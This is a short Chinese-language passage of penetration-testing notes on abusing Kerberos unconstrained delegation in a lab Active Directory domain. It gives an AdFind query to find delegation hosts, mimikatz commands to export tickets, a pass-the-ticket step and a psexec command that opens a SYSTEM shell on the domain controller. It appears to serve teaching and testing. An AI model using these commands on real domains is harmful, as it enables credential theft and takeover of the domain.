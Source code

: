 **查找非约束委派主机**

```sh
AdFind.exe -b "DC=y5neko,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"  cn
```

<img src="image/image-20230928170523309.png" alt="image-20230928170523309" style="zoom:80%;" />

**利用**

当我们在域内拿到一台配置了非约束委派的主机后，就可以使用mimikatz导出所有票据，若是有其他用户访问过该主机，那么我们就可以通过ptt获取该用户权限。

```bash
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
#之后就可以带着票据任意使用了
kerberos::ptt [0;77987]-2-0-40e10000-Administrator@krbtgt-Y5NEKO.COM.kirbi
psexec64.exe \\DC.y5neko.com -accepteula -s cmd
```

<img src="image/image-20231006172913475.png" alt="image-20231006172913475" style="zoom: 67%;" />
